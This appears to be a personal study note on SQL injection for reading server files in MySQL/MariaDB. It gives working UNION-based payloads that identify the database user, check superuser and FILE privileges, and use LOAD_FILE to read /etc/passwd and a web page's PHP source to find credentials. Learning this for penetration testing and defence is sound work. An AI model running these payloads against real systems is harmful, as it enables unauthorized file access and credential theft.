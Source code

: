 
***
###### `Title :- Reading Files`
###### `Created on :- 2023-06-17 - 23:47`
###### `Created by:- Prem J`
***

- In addition to gathering data from various tables and databases within the DBMS, a SQL Injection can also be leveraged to perform many other operations, such as reading and writing files on the server and even gaining ***remote code execution*** on the back-end server.

#### `Privilages -->`

- only the privileged users are able to write files to a server, rest of them only perform reading. For example, in `MySQL`, the **DB user** must have the `FILE` privilege to load a file's content into a table and then dump data from that table and read files

#### `DB User -->`

- first we need to determine which user we are in the database. 
- While we do not necessarily need database administrator (DBA) privileges to read data, this is becoming more required in modern DBMSes, as only DBA are given such.
- If we do have DBA privileges, then it is much more probable that we have file-read privileges
- If we don't have DBA privileges we need to check what kind of user is our current DB user.

```sql
SELECT USER()
SELECT CURRENT_USER()
SELECT user from mysql.user
```

- Above payloads will help in determining the user.

```sql
cn' UNION SELECT 1, user(), 3, 4-- -            Union Injection Payload
3,4,cn' UNION SELECT 1, user, 3, 4 from mysql.user-- -
```

- Which in turn tells us the current user.

![[Pasted image 20230618045533.jpg]]

#### `User Privileges -->`

- Now that we know our user, we can start looking for what privileges we have with that user. We need to check is the user have **super_user** privileges

```sql
SELECT super_priv FROM mysql.user   -- Query to check
cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user-- -  payload
```

- if we had many users within DBMS, we cab add `WHERE user="root"` to only show privileges for current user root.

```sql
cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user WHERE user="root"-- -
```

![[Pasted image 20230618045903.jpg]]

- The query returns `Y`, which means `YES`, indicating superuser privileges. We can also dump other privileges we have directly from the schema, with the following query:

```sql
cn' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges-- -

cn' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges WHERE user="root"-- -
```

![[Pasted image 20230618050003.jpg]]

- We see that the `FILE` privilege is listed for our user, enabling us to read files and potentially even write files. Thus, we can proceed with attempting to read files.

#### `LOAD_FILE -->`

- The [LOAD_FILE()](https://mariadb.com/kb/en/load_file/) function can be used in MariaDB / MySQL to read data from files. The function takes in just one argument, which is the file name

```sql
SELECT LOAD_FILE('/etc/passwd');
```

>[!Note]
>We will only be able to read the file if the OS user running MySQL has enough privileges to read it.

```sql
cn' UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4-- -  #payload
```

![[Pasted image 20230618051353.png]]

#### `Scenario 2 -->`

- In a web application linked with linux the location of the current web page would be somewhere in `/var/www/html`, we could try reading the source code.

```sql
cn' UNION SELECT 1, LOAD_FILE("/var/www/html/search.php"), 3, 4-- -
```

- The source code shows us the entire PHP code, which could be inspected further to find sensitive information like database connection credentials or find more vulnerabilities